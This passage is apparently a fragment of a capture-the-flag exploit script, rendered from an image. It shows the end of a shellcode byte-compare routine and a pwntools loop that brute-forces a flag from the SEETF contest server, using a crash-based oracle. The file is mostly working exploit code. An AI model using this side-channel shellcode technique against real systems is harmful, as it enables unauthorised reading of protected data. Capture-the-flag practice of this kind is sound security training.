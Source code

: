```python
mov rdx, 0x2
syscall

mov al, [0x1337900+r8]
mov bl, [0x1337500+r8]
cmp al, bl
je loop

crash:
xor rax, rax
mov byte [rax], al
""")


charset = "{_}abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@$"
ptr = -1
known = "SEE{n1c3_sh3llc0ding_d6e25f87c7ebeef6e80df23d32c42d00}"

with log.progress("enumerating") as pro:
    while known[-1] != "}":

        ptr += 1
        if ptr == len(charset):
            ptr = 0

        with context.quiet:
            p = remote("win.the.seetf.sg", 2002)

        p.send(sc1)
        sleep(0.05)
        p.send(sc2)

        for i in known:
            p.sendline(i.encode())

        p.clean()
        p.sendline(charset[ptr].encode())
        pro.status(known + charset[ptr])

        try:
            p.recv(timeout=0.05)
            p.recv(timeout=0.05)
            p.recv(timeout=0.05)
            known += charset[ptr]
        except EOFError:
            pass
        with context.quiet:
            p.close()

log.success(known)
```
